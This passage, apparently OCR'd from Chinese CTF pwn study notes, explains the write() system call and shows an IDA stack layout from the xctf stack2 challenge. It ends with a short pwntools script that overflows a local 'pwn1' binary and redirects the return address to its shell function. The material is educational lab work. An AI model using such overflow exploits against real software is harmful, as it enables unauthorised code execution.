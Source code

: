 参数说明：

    fd:是文件描述符（输出到command line，就是1）
    buf:通常是一个字符串，需要写入的字符串
    count：是每次写入的字节数

返回值：

    成功：返回写入的字节数
    失败：返回-1并设置errno
    ps： 写常规文件时，write的返回值通常等于请求写的字节
    数count， 而向终端设备或者网络写时则不一定

因此，read 函数就可以取代 scanf 从 command line 读取数据；write 函数就可以代替 printf，往 command line 打印输出。

# IDA 查看栈底地址

xctf stack2 示例

```python
-00000070 var_70          db 100 dup(?)
-0000000C var_C           dd ?
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008 argc            dd ?
+0000000C argv            dd ?                    ; offset
+00000010 envp            dd ?                    ; offset
+00000014
+00000014 ; end of stack variables
```

偏移值是 0x84, 即栈底地址.

动态调试见 xctf_pwn_stack2.pdf。

# Write Up list

## overflow

### pwn1 长度溢出覆盖 ebp 输入数字覆盖返回地址

注意输入类型

```py
from pwn import *
sh = process('./pwn1')
elf = ELF('./pwn1')
addr = elf.symbols['shell_func']
sh.sendline(str(0x88+4))
sh.sendline(str(addr))
```
